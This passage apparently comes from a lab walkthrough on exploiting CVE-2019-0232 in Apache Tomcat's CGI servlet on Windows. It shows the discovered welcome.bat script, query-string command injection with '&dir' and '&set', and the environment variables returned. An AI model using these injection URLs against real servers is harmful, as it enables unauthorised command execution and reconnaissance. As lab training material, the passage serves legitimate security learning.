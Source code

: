 ```shell-session
:: Progress: [4614/4614] :: Job [1/1] :: 226 req/sec :: Duration: [0:00:20] :: Errors: 0 ::
```

Navigating to the discovered URL at `http://10.129.204.227:8080/cgi/welcome.bat` returns a message:

```txt
Welcome to CGI, this section is not functional yet. Please return to home page.
```

### Exploitation

we can exploit `CVE-2019-0232` by appending our own commands through the use of the batch command separator `&` since we know the path of valid CGI script already

```
http://10.129.204.227:8080/cgi/welcome.bat?&dir
```

run other common windows command line apps, such as `whoami` doesn't return an output.

**Retrieve a list of environmental variables by calling the `set` command:**

```http
# http://10.129.204.227:8080/cgi/welcome.bat?&set

Welcome to CGI, this section is not functional yet. Please return to home page.
AUTH_TYPE=
COMSPEC=C:\Windows\system32\cmd.exe
CONTENT_LENGTH=
CONTENT_TYPE=
GATEWAY_INTERFACE=CGI/1.1
HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
HTTP_ACCEPT_ENCODING=gzip, deflate
HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.5
HTTP_HOST=10.129.204.227:8080
HTTP_USER_AGENT=Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.JS;.WS;.MSC
PATH_INFO=
PROMPT=$P$G
QUERY_STRING=&set
REMOTE_ADDR=10.10.14.58
REMOTE_HOST=10.10.14.58
REMOTE_IDENT=
REMOTE_USER=
REQUEST_METHOD=GET
REQUEST_URI=/cgi/welcome.bat
SCRIPT_FILENAME=C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi\welcome.bat
SCRIPT_NAME=/cgi/welcome.bat
SERVER_NAME=10.129.204.227
SERVER_PORT=8080
SERVER_PROTOCOL=HTTP/1.1
SERVER_SOFTWARE=TOMCAT
SystemRoot=C:\Windows
X_TOMCAT_SCRIPT_PATH=C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi\welcome.bat
```
